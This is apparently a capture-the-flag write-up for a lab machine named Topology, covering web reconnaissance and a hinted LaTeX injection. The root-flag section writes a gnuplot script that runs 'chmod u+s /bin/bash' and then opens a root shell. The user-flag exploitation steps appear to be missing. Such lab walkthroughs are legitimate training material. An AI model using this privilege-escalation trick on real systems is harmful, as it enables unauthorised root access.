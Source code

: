 # easy - Topology (machine)

# Table of Content

- [easy - Topology (machine)](#easy---topology-machine)
- [Table of Content](#table-of-content)
- [Content](#content)
    - [User flag](#user-flag)
    - [Root flag](#root-flag)

# Content

## User flag

At simple glance, we've got an ubuntu with apache:
```bash
➤ curl -I topology.htb
HTTP/1.1 200 OK
Date: Thu, 15 Jun 2023 13:18:49 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 17 Jan 2023 17:26:29 GMT
ETag: "1a6f-5f27900124a8b"
Accept-Ranges: bytes
Content-Length: 6767
Vary: Accept-Encoding
Content-Type: text/html
```
And nmap can confirm it:
```bash
➤ sudo nmap -n -Pn -sV -O -T4 topology.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-15 09:19 -04
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Quick check at source code, I see a latex php file :eyes:!
```bash
➤ curl -s topology.htb  | xurls
https://fonts.googleapis.com/css?family=Roboto
https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css
http://latex.topology.htb/equation.php
https://www.w3schools.com/w3css/default.asp
```
After enabling that latex.topology.htb domain, I've got this:
{{< limg "/i/2023-06-15_09-23.png" "latex generator page">}}

Nice, we've got an Index of files :muscle:!
```bash
➤ curl -s 'http://latex.topology.htb/' | elinks --dump
                                   Index of /
   [1][ICO]        [2]Name        [3]Last modified [4]Size [5]Description
   ══════════════════════════════════════════════════════════════════════
   [6][DIR]  [7]demo/             2023-01-17 12:26       -  
   [8][   ]  [9]equation.php      2023-01-17 12:26    3.8K  
   [10][   ] [11]equationtest.aux 2023-01-17 12:26     662  
   [12][   ] [13]equationtest.log 2023-01-17 12:26     17K  
   [14][   ] [15]equationtest.out 2023-01-17 12:26       0  
   [16][   ] [17]equationtest.pdf 2023-01-17 12:26     28K  
   [18][IMG] [19]equationtest.png 2023-01-17 12:26    2.7K  
   [20][TXT] [21]equationtest.tex 2023-01-17 12:26     112  
   [22][IMG] [23]example.png      2023-01-17 12:26    1.3K  
   [24][TXT] [25]header.tex       2023-01-17 12:26     502  
   [26][DIR] [27]tempfiles/       2023-06-14 11:58       -  
   ══════════════════════════════════════════════════════════════════════
```

Ok sounds like a Latex template injection what we need to exploit here.

## Root flag
```bash
vdaisley@topology:~$ find / -type d -perm /020 -not -perm /040 2>/dev/null
/opt/gnuplot
/var/spool/cron/crontabs
/var/lib/php/sessions
```

Now get a /bin/bash setuid-ed
```bash
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/root.plt
/bin/bash -p
```
